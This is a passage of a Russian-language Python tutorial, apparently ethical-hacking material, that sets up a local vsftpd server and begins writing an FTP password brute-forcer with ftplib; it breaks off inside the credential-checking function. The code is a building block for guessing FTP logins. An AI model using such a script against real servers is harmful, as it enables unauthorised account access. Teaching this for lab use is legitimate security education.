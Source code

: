 Мы будем использовать модуль ftplib, встроенный в Python. Тем не менее, мы собираемся использовать colorama для печати в цветах в Python:

pip3 install colorama
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Теперь, в демонстрационных целях, я настроил FTP-сервер в моей локальной сети на машине, которая работает под управлением Linux. Точнее, я установил vsftpd (очень безопасный FTP-демон), который является FTP-сервером для Unix-подобных систем. Если вы хотите сделать это тоже, вот команды, которые я использовал, чтобы подготовить его:

root@rockikz:~# sudo apt-get update
root@rockikz:~# sudo apt-get install vsftpd
root@rockikz:~# sudo service vsftpd start
А затем убедитесь, что у вас есть пользователь, и конфигурация local_enable=YES установлена в файле /etc/vsftpd.conf.

Давайте начнем:

import ftplib
from colorama import Fore, init # for fancy colors, nothing else

# init the console for colors (Windows)
# init()
# hostname or IP address of the FTP server
host = "192.168.1.113"
# username of the FTP server, root as default for linux
user = "test"
# port of FTP, aka 21
port = 21
Итак, локальный сервер расположен по адресу 192.168.1.113, я также создал логин "test", а затем мы указываем порт FTP, который равен 21.

Теперь давайте запишем основную функцию, которая принимает пароль в аргументах и возвращает правильность учетных данных:

def is_correct(password):
    # initialize the FTP server object
    server = ftplib.FTP()
    print(f"[!] Trying", password)
    try:
        # tries to connect to FTP server with a timeout of 5
        server.connect(host, port, timeout=5)
        # login using the credentials (user & password)
        server.login(user, password)
    except ftplib.error_perm:
        # login failed, wrong credentials
        return False
    else:
        # correct credentials
        print(f"{Fore.GREEN}[+] Found credentials:", password, Fore.RESET)